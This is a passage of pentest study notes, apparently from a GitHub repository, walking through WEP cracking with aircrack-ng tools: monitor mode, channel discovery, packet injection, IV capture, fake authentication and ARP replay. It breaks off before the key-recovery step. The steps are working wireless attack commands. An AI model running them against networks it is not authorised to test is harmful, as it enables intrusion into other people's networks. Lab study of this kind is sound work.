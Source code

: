 ## Cracking WEP

## Perform the following steps prior to step 1, if you're wireless card is giving you issues.

* Stop network manager
````
service network-manager stop
````

* When putting a card into monitor mode, it will automatically check for interfering processes. It can also be done manually by running the following command:
````
airmon-ng check
````

* Kill interferring processes
````
airmon-ng check kill
````

* Kill the network manager(s) before putting card into monitor mode
````
airmon-ng check kill PID
````

* If started already...disable Monitor Mode
````
airmon-ng stop wlan0mo
````

* Restart Network Manager(s)
````
service network-manager start
````

**1) List All Available Wireless Interace Cards**

* You can do this with two commands: iwconfig or airmon-ng

![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/list_interfaces.png)

**2) Enable monitor mode on the interace found in step 1**

* Identify the channel of the target AP, 
````
airmon-ng start wlan0
sudo airodump-ng wlan0mon
sudo airodump-ng stop wlan0mon
sudo airmon-ng start wlan0 3
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/monitor_mode_channel.png.png)

**3) Identify the channel your WEP network is operating on**

* execute iwconfig or airmon-ng to get your wireless interface
* use either BSSID or ESSID.
* The channel number will be listed under the "CH" column.
````
airodump-ng wlan0mon
````
![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/identify_channel.png)

* Take not of the the MAC, channel and network name of the target AP.
* Test wireless device packet injection.
* If you receive "Injection is working! proceed, else, ensure you're using a compatible wireless card.

**4) Packet Injection**
````
aireplay-ng -9 -e <network name> -a <target MAC> <interface>
````

**5) Capture IVs from the AP**
````
airodump-ng -c 3 --bssid D8:0D:17:81:3F:CC -w target_iphone wlan0mon
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/capture_iv.png)

**6) Initiate Fake Authentication**
* Do this step concurrently with the step 5 to capture all the data you have replayed.
````
sudo aireplay-ng -1 0 -e lab -a D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/fake_authentication.png)

**7) Start aireplay in ARP request replay mode**

````
aireplay-ng -3 -b <target MAC> -h <wireless MAC> <interface>
````
